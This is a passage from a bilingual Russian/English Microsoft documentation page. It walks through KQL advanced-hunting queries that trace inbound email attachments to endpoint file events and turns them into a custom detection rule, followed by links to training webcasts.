         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  <span data-ttu-id="1c806-324">Щелкните строки, полученные в запросе, чтобы проверить запись.</span><span class="sxs-lookup"><span data-stu-id="1c806-324">Click the resulting rows from the query so you can inspect the record.</span></span>
   
         

4.  <span data-ttu-id="1c806-326">Теперь, когда вы убедитесь, что видите сообщение электронной почты, добавьте фильтр для вложений.</span><span class="sxs-lookup"><span data-stu-id="1c806-326">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="1c806-327">Сосредоточьтесь на всех сообщениях электронной почты с вложениями в среде.</span><span class="sxs-lookup"><span data-stu-id="1c806-327">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="1c806-328">Для этого сценария необходимо сосредоточиться на входящих сообщениях электронной почты, а не о сообщениях, отправляемых из вашей среды.</span><span class="sxs-lookup"><span data-stu-id="1c806-328">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="1c806-329">Удалите все добавленные фильтры, чтобы нахождение сообщения и добавить "|" где **аттачменткаунт > 0** и **емаилдиректион**  ==  **"входящий"**</span><span class="sxs-lookup"><span data-stu-id="1c806-329">Remove any filters you have added to locate your message and add “| where **AttachmentCount > 0** and **EmailDirection** == **“Inbound””**</span></span>

    <span data-ttu-id="1c806-330">Приведенный ниже запрос показывает результат с более коротким списком, отличным от начального запроса для всех событий электронной почты:</span><span class="sxs-lookup"><span data-stu-id="1c806-330">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  <span data-ttu-id="1c806-331">Затем укажите сведения о вложении (например, имя файла, хэши) в наборе результатов.</span><span class="sxs-lookup"><span data-stu-id="1c806-331">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="1c806-332">Для этого присоединитесь к таблице **емаилаттачментинфо** .</span><span class="sxs-lookup"><span data-stu-id="1c806-332">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="1c806-333">Общие поля, используемые для присоединения, в данном случае — **нетворкмессажеид** и **реЦипиентобжектид**.</span><span class="sxs-lookup"><span data-stu-id="1c806-333">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

    <span data-ttu-id="1c806-334">Следующий запрос также включает дополнительную строку "| **Project – Rename емаилтиместамп = timestamp**", который поможет определить, какая временная метка была связана с электронной почтой и отметками времени, связанными с действиями с файлами, которые вы добавите на следующем этапе.</span><span class="sxs-lookup"><span data-stu-id="1c806-334">The following query also includes an additional line “| **project-rename EmailTimestamp=Timestamp**” that will help identify which timestamp was related to the email versus timestamps related to file actions which you will add in the next step.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  <span data-ttu-id="1c806-335">Затем используйте значение **SHA256** из таблицы **емаилаттачментинфо** , чтобы найти **девицефиливентс** (действия с файлами, которые произошли в конечной точке) для этого хеша.</span><span class="sxs-lookup"><span data-stu-id="1c806-335">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span>  <span data-ttu-id="1c806-336">Обычно это поле является хэшем SHA256 для вложения.</span><span class="sxs-lookup"><span data-stu-id="1c806-336">The common field here will be the SHA256 hash for the attachment.</span></span>

    <span data-ttu-id="1c806-337">В полученной таблице теперь содержатся сведения о конечной точке (Microsoft Defender ATP), такие как имя устройства, какое действие было выполнено (в данном случае отфильтровано только для событий Филекреатед), а также место хранения файла.</span><span class="sxs-lookup"><span data-stu-id="1c806-337">The resulting table now includes details from the endpoint (Microsoft Defender ATP) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="1c806-338">Также будет включено имя учетной записи, связанное с процессом.</span><span class="sxs-lookup"><span data-stu-id="1c806-338">The account name associated with the process will also be included.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

    <span data-ttu-id="1c806-339">Теперь вы создали запрос, который будет определять все входящие сообщения электронной почты, в которых пользователь открыл или сохранил вложение.</span><span class="sxs-lookup"><span data-stu-id="1c806-339">You have now created a query that will identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="1c806-340">Вы также можете уточнить этот запрос, чтобы отфильтровать конкретные домены отправителей, размеры файлов, типы файлов и т. д.</span><span class="sxs-lookup"><span data-stu-id="1c806-340">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7.  <span data-ttu-id="1c806-341">Функции — это особый тип объединения, позволяющий извлекать дополнительные данные TI о файле, например сведения о доходе, подписавшем и поставщике и т. д.  Чтобы получить дополнительные сведения о файле, используйте функцию **филепрофиле ()** в обогащении:</span><span class="sxs-lookup"><span data-stu-id="1c806-341">Functions are a special sort of join which let you pull more TI data about a file like its prevalence, signer and issuer info, etc.  To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


<span data-ttu-id="1c806-342">**Создание обнаружения**</span><span class="sxs-lookup"><span data-stu-id="1c806-342">**Create a detection**</span></span>

<span data-ttu-id="1c806-343">После создания запроса, указывающего сведения о том, что вы хотите **получать оповещения** в будущем, можно создать пользовательское определение из запроса.</span><span class="sxs-lookup"><span data-stu-id="1c806-343">Once you have created a query that identifies information that you would like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span> 

<span data-ttu-id="1c806-344">Пользовательские обнаружения запустит запрос в соответствии с заданной частотой, а результаты запросов будут создавать оповещения системы безопасности на основе затронутых ресурсов.</span><span class="sxs-lookup"><span data-stu-id="1c806-344">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="1c806-345">Эти оповещения будут сопоставлены с происшествиями и их можно рассматривать как любое другое оповещение системы безопасности, созданное одним из продуктов.</span><span class="sxs-lookup"><span data-stu-id="1c806-345">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1.  <span data-ttu-id="1c806-346">На странице запрос удалите строки 7 и 8, добавленные в шаге 7 инструкций поиска, и щелкните **создать правило обнаружения**.</span><span class="sxs-lookup"><span data-stu-id="1c806-346">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span> 
    
     

    > [!NOTE]
    > <span data-ttu-id="1c806-348">Если нажать кнопку **создать правило обнаружения** и в запросе имеются синтаксические ошибки, правило обнаружения не будет сохранено.</span><span class="sxs-lookup"><span data-stu-id="1c806-348">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won’t be saved.</span></span> <span data-ttu-id="1c806-349">Дважды проверьте запрос, чтобы убедиться в отсутствии ошибок.</span><span class="sxs-lookup"><span data-stu-id="1c806-349">Double-check your query to ensure there’s no errors.</span></span> 


2.  <span data-ttu-id="1c806-350">Заполните обязательные поля, указав сведения, позволяющие группе безопасности определить оповещение, причину его создания и действия, которые предполагается выполнить.</span><span class="sxs-lookup"><span data-stu-id="1c806-350">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span> 

    

    <span data-ttu-id="1c806-352">Убедитесь, что вы заполнили поля с помощью ясности, чтобы предоставить следующему пользователю информированное решение об этом уведомлении о правиле обнаружения</span><span class="sxs-lookup"><span data-stu-id="1c806-352">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span> 

3.  <span data-ttu-id="1c806-353">Выберите объекты, на которые влияет данное предупреждение.</span><span class="sxs-lookup"><span data-stu-id="1c806-353">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="1c806-354">В этом случае выберите **устройство** и **почтовый ящик**.</span><span class="sxs-lookup"><span data-stu-id="1c806-354">In this case, select **Device** and **Mailbox**.</span></span>

    
 

4.  <span data-ttu-id="1c806-356">Определите, какие действия должны выполняться, если оповещение инициируется.</span><span class="sxs-lookup"><span data-stu-id="1c806-356">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="1c806-357">В этом случае запустите проверку антивирусной программы, хотя могут быть предприняты другие действия.</span><span class="sxs-lookup"><span data-stu-id="1c806-357">In this case, run an antivirus scan, though other actions could be taken.</span></span> 

     

5.  <span data-ttu-id="1c806-359">Выберите область для правила оповещения.</span><span class="sxs-lookup"><span data-stu-id="1c806-359">Select the scope for the alert rule.</span></span> <span data-ttu-id="1c806-360">Так как этот запрос включает устройства, группы устройств важны в этом пользовательском определении в соответствии с контекстом ATP для защитника Майкрософт.</span><span class="sxs-lookup"><span data-stu-id="1c806-360">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender ATP context.</span></span>  <span data-ttu-id="1c806-361">При создании настраиваемого обнаружения, которое не включает устройства в качестве затронутых сущностей, область действия не применяется.</span><span class="sxs-lookup"><span data-stu-id="1c806-361">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>  

     

    <span data-ttu-id="1c806-363">В этом пилотном проекте вы можете ограничить это правило подмножеством тестовых устройств в рабочей среде.</span><span class="sxs-lookup"><span data-stu-id="1c806-363">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6.  <span data-ttu-id="1c806-364">Нажмите **Создать**.</span><span class="sxs-lookup"><span data-stu-id="1c806-364">Select **Create**.</span></span> <span data-ttu-id="1c806-365">Затем выберите **Настраиваемые правила обнаружения** на панели навигации.</span><span class="sxs-lookup"><span data-stu-id="1c806-365">Then, select **Custom detection rules** from the navigation panel.</span></span>
 
     

     

    <span data-ttu-id="1c806-368">На этой странице можно выбрать правило обнаружения, которое будет открывать страницу сведений.</span><span class="sxs-lookup"><span data-stu-id="1c806-368">From this page, you can select the detection rule which will open a details page.</span></span> 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="1c806-370">Дополнительные упражнения с дополнительными руководствами по поиску</span><span class="sxs-lookup"><span data-stu-id="1c806-370">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="1c806-371">Чтобы узнать больше о расширенном поиске, в следующих веб-трансляциях вы узнаете о возможностях расширенного поиска в Microsoft Threat protection (MTP), чтобы создать запросы с перекрестными сведениями, Познакомьтесь с сущностями и Создайте настраиваемые обнаружения и действия по исправлению.</span><span class="sxs-lookup"><span data-stu-id="1c806-371">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft Threat Protection (MTP) to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

>[!NOTE]
><span data-ttu-id="1c806-372">Подготовьтесь к работе с собственной учетной записью GitHub, чтобы выполнить поисковые запросы в испытательной тестовой среде.</span><span class="sxs-lookup"><span data-stu-id="1c806-372">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>  

|  <span data-ttu-id="1c806-373">Название</span><span class="sxs-lookup"><span data-stu-id="1c806-373">Title</span></span>  |  <span data-ttu-id="1c806-374">Описание</span><span class="sxs-lookup"><span data-stu-id="1c806-374">Description</span></span>  |  <span data-ttu-id="1c806-375">Скачать MP4</span><span class="sxs-lookup"><span data-stu-id="1c806-375">Download MP4</span></span>  |  <span data-ttu-id="1c806-376">Смотреть на YouTube</span><span class="sxs-lookup"><span data-stu-id="1c806-376">Watch on YouTube</span></span>  |  <span data-ttu-id="1c806-377">Используемый файл CSL</span><span class="sxs-lookup"><span data-stu-id="1c806-377">CSL file to use</span></span>  |
|:-----|:-----|:-----|:-----|:-----|
| <span data-ttu-id="1c806-378">Эпизод 1: базовые понятия KQL</span><span class="sxs-lookup"><span data-stu-id="1c806-378">Episode 1: KQL fundamentals</span></span> | <span data-ttu-id="1c806-379">Мы рассмотрим основные возможности расширенного обнаружения в Microsoft Threat protection.</span><span class="sxs-lookup"><span data-stu-id="1c806-379">We’ll cover the basics of advanced hunting capabilities in Microsoft Threat Protection.</span></span> <span data-ttu-id="1c806-380">Сведения о доступных дополнительных данных по поиску и базовому синтаксису KQL и операторам.</span><span class="sxs-lookup"><span data-stu-id="1c806-380">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span> | [<span data-ttu-id="1c806-381"> MP4</span><span class="sxs-lookup"><span data-stu-id="1c806-381"> MP4</span></span>](https://aka.ms/MTP15JUL20_MP4) | [<span data-ttu-id="1c806-382">YouTube</span><span class="sxs-lookup"><span data-stu-id="1c806-382">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM) | [<span data-ttu-id="1c806-383">Эпизод 1: файл CSL в Git</span><span class="sxs-lookup"><span data-stu-id="1c806-383">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| <span data-ttu-id="1c806-384">Эпизод 2: объединения</span><span class="sxs-lookup"><span data-stu-id="1c806-384">Episode 2: Joins</span></span> | <span data-ttu-id="1c806-385">Мы будем продолжать изучать данные в расширенном поиске, а также как объединять таблицы.</span><span class="sxs-lookup"><span data-stu-id="1c806-385">We’ll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="1c806-386">Узнайте о внутренних, внешних, уникальных и частичных соединениях, а также о том, какие особенности присоединяются к иннеруникуе по умолчанию Кусто.</span><span class="sxs-lookup"><span data-stu-id="1c806-386">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span> | [<span data-ttu-id="1c806-387">MP4</span><span class="sxs-lookup"><span data-stu-id="1c806-387">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4) | [<span data-ttu-id="1c806-388">YouTube</span><span class="sxs-lookup"><span data-stu-id="1c806-388">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU) | [<span data-ttu-id="1c806-389">Эпизод 2: файл CSL в Git</span><span class="sxs-lookup"><span data-stu-id="1c806-389">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| <span data-ttu-id="1c806-390">Эпизод 3: сводка, сведение и визуализация данных</span><span class="sxs-lookup"><span data-stu-id="1c806-390">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="1c806-391">Теперь, когда мы можем отфильтровать данные, управлять ими и присоединяться к ним, настало время начать суммирование, количественное представление, сведение и визуализация.</span><span class="sxs-lookup"><span data-stu-id="1c806-391">Now that we’re able to filter, manipulate, and join data, it’s time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="1c806-392">В этом эпизоде мы рассмотрим оператор суммирования и некоторые вычисления, которые вы можете выполнить, чтобы углубляться в дополнительные таблицы в расширенной схеме Поиск.</span><span class="sxs-lookup"><span data-stu-id="1c806-392">In this episode, we’ll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="1c806-393">Мы передаем наши наборы данных в диаграммы, которые могут помочь повысить эффективность анализа.</span><span class="sxs-lookup"><span data-stu-id="1c806-393">We turn our datasets into charts that can help improve analysis.</span></span> | [<span data-ttu-id="1c806-394">MP4</span><span class="sxs-lookup"><span data-stu-id="1c806-394">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4) | [<span data-ttu-id="1c806-395">YouTube</span><span class="sxs-lookup"><span data-stu-id="1c806-395">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y) | [<span data-ttu-id="1c806-396">Эпизод 3: файл CSL в Git</span><span class="sxs-lookup"><span data-stu-id="1c806-396">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| <span data-ttu-id="1c806-397">Эпизод 4: Давайте добавим!</span><span class="sxs-lookup"><span data-stu-id="1c806-397">Episode 4: Let’s hunt!</span></span> <span data-ttu-id="1c806-398">Применение KQL к отслеживанию инцидентов</span><span class="sxs-lookup"><span data-stu-id="1c806-398">Applying KQL to incident tracking</span></span>|<span data-ttu-id="1c806-399">Время для отслеживания действий злоумышленника!</span><span class="sxs-lookup"><span data-stu-id="1c806-399">Time to track some attacker activity!</span></span> <span data-ttu-id="1c806-400">В этом эпизоде мы будем использовать наш усовершенствованный обзор KQL и расширенного поиска в защите от угроз Майкрософт для отслеживания атак.</span><span class="sxs-lookup"><span data-stu-id="1c806-400">In this episode, we’ll use our improved understanding of KQL and advanced hunting in Microsoft Threat Protection to track an attack.</span></span> <span data-ttu-id="1c806-401">Узнайте о некоторых советах и приемах, используемых в поле для отслеживания действий взломщика, в том числе АБКС циберсекурити и способов применения их к реагированию на инциденты.</span><span class="sxs-lookup"><span data-stu-id="1c806-401">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span> | [<span data-ttu-id="1c806-402">MP4</span><span class="sxs-lookup"><span data-stu-id="1c806-402">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4) | [<span data-ttu-id="1c806-403">YouTube</span><span class="sxs-lookup"><span data-stu-id="1c806-403">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8) | [<span data-ttu-id="1c806-404">Эпизод 4: файл CSL в Git</span><span class="sxs-lookup"><span data-stu-id="1c806-404">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a><span data-ttu-id="1c806-405">Следующий этап</span><span class="sxs-lookup"><span data-stu-id="1c806-405">Next step</span></span>
|<span data-ttu-id="1c806-406"></span><span class="sxs-lookup"><span data-stu-id="1c806-406"></span></span> <br>[<span data-ttu-id="1c806-407">Этап закрытия и сводки</span><span class="sxs-lookup"><span data-stu-id="1c806-407">Closing and summary phase</span></span>](mtp-pilot-close.md) | <span data-ttu-id="1c806-408">Проанализируйте результаты пилотного проекта по защите от угроз Майкрософт, представим им заинтересованных лиц и выполните следующий шаг.</span><span class="sxs-lookup"><span data-stu-id="1c806-408">Analyze your Microsoft Threat Protection pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|

